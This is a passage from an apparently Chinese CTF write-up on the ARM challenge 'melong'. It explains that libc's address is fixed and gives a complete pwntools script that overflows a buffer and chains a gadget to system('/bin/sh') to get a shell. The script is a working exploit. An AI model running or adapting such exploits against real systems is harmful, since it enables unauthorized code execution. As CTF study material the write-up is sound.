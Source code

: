 返回 main 函数无论怎么搞都返回不了。但是**发现 libc 是静态加载的，两次泄露地址都是一样的**，所以直接调用 system :

```python
payload = padding+p32(gadget)+p32(binsh)+p32(system)
```

### EXP

```python
from pwn import *
import sys
context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "./melong"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "./melong"])

elf = ELF("./melong")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")

#libc_base = 0xff6b6f98 - libc.symbols['puts']
libc_base = 0xff6bb770 - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

#payload  = 'A' * 0x54 + p32(0x00011bbc) + p32(elf.got['puts']) + p32(elf.plt['puts'])#+p32(elf.sym['main'])*2
payload  = 'A' * 0x54 + p32(0x00011bbc) + p32(bin_addr) + p32(system_addr)

p.recvuntil('Type the number:')
p.sendline('1')
p.recvuntil('Your height(meters) : ')
p.sendline('1')
p.recvuntil('Your weight(kilograms) : ')
p.sendline('1')
p.recvuntil('Type the number:')
p.sendline('3')
p.recvuntil('How long do you want to take personal training?')
p.sendline('-1')
p.recvuntil('Type the number:')
p.sendline('4')
p.sendline(payload)
p.recvuntil('Type the number:')
p.sendline('6')

p.interactive()
```

## inctf2018_wARMup
